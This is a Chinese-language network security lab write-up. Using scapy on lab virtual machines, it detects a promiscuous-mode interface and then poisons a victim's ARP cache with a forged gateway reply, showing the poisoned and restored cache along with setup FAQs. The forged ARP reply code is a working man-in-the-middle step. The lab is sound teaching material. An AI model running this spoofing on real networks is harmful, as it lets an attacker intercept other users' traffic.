

# 网络监听

### 网络拓扑


如图所示网络中的节点基本信息如下：

- 攻击者主机 eth0
  - 172.16.111.115
  - 08:00:27:45:3a:a0
  
- 受害者主机 eth0
  - 172.16.111.111
  - 08:00:27:0e:34:8d
  
- 网关 enp0s9
  - 172.16.111.1
  - 08:00:27:9a:b4:3b

### 实验准备

##### 安装 scapy

在攻击者主机上提前安装好scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff
```


```
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.111")
```


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff
```


```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.111")
```



```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:45:3a:a0
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:45:3a:a0
#      psrc= 172.16.111.115
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```


```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:45:3a:a0")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
# 172.16.111.115 dev eth0 lladdr 08:00:27:45:3a:a0 STALE
# 172.16.111.1 dev eth0 lladdr 08:00:27:45:3a:a0 REACHABLE
```


回到攻击者主机上的 `scapy` 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9a:b4:3b", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:9a:b4:3b", psrc="172.16.111.111", hwsrc="08:00:27:0e:34:8d")
sendp(restorepkt2, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


### 补充FAQ

#### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

### scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```python
import warnings
warnings.filterwarnings('ignore')
```

### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> -p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for`ether host {local-hw-addr} or ether broadcast'.

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

### 实验问题

- 在执行 `pkt = promiscping("172.16.111.111")` 命令时报错
  - 
  - 解决措施：执行`scapy`时`sudo scapy`

### 参考链接

- [第四章 网络监听](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/main.html)
